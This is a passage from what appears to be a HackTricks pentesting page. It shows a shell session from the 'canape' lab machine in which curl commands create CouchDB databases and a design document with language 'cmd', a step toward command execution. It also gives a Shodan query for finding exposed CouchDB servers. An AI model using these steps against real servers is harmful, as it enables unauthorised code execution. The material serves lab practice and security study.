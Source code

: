 ```
www-data@canape:/dev/shm$ curl 'http://0xdf:df@localhost:5984/_all_dbs'
["_global_changes","_metadata","_replicator","_users","god","passwords","simpsons","vultest"]
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/df'
{"ok":true}
www-data@canape:/dev/shm$ curl 'http://0xdf:df@localhost:5984/_all_dbs'
["_global_changes","_metadata","_replicator","_users","df","passwords","simpsons"]

www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/df/zero' -d '{"_id": "HTP"}'
{"ok":true,"id":"zero","rev":"1-967a00dff5e02add41819138abb3284d"}
```

Request it in a view:

```bash
www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/df/_design/zero' -d '{"_id": "_design/zero", "views": {"anything": {"map": ""} }, "language": "cmd"}' -H "Content-Type: application/json"
```

#### [Summary](https://github.com/carlospolop/hacktricks/pull/116/commits/e505cc2b557610ef5cce09df6a14b10caf8f75a0) with a different payload

## Shodan

* `port:5984 couchdb`

## References

* [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)
* [https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#couchdb-execution)

<details><summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch</strong></a> <strong>Wed - 18.30(UTC) 🎙️</strong> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
